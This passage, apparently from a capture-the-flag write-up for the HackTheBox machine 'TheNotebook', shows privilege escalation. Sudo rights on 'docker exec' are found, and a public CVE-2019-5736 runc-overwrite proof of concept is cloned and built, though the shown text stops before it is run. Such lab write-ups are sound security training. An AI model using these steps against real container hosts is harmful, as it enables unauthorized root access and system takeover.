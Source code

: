 We can grab user flag here.

## privesc

We know the `noah` can use `docker exec` as root, without password:

```bash
noah@thenotebook:/var/backups$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```


Maybe we can try to use this exploit `CVE-2019-5736`

This exploit basically overwrites `runc` binary.

This is the legit one:

```bash
noah@thenotebook:~$ which runc
/usr/sbin/runc
noah@thenotebook:~$ md5sum /usr/sbin/runc
94b7fed4045e453722bbdc106cba6695  /usr/sbin/runc
```



https://github.com/Frichetten/CVE-2019-5736-PoC

```bash
joshua@kaligra:~/Documents/htb/machines/TheNotebook$ git clone https://github.com/Frichetten/CVE-2019-5736-PoC.git
Cloning into 'CVE-2019-5736-PoC'...
remote: Enumerating objects: 53, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 53 (delta 1), reused 5 (delta 1), pack-reused 45
Receiving objects: 100% (53/53), 1.69 MiB | 7.01 MiB/s, done.
Resolving deltas: 100% (11/11), done.
joshua@kaligra:~/Documents/htb/machines/TheNotebook$ cd CVE-2019-5736-PoC/
joshua@kaligra:~/Documents/htb/machines/TheNotebook/CVE-2019-5736-PoC$ ls
main.go  README.md  screenshots
joshua@kaligra:~/Documents/htb/machines/TheNotebook/CVE-2019-5736-PoC$ go build main.go
joshua@kaligra:~/Documents/htb/machines/TheNotebook/CVE-2019-5736-PoC$ ls -l
total 2080
-rwxr-xr-x 1 joshua joshua 2110616 Apr 26 13:18 main
-rw-r--r-- 1 joshua joshua    2274 Apr 26 13:17 main.go
-rw-r--r-- 1 joshua joshua    4811 Apr 26 13:17 README.md
drwxr-xr-x 2 joshua joshua    4096 Apr 26 13:17 screenshots
joshua@kaligra:~/Documents/htb/machines/TheNotebook/CVE-2019-5736-PoC$
```
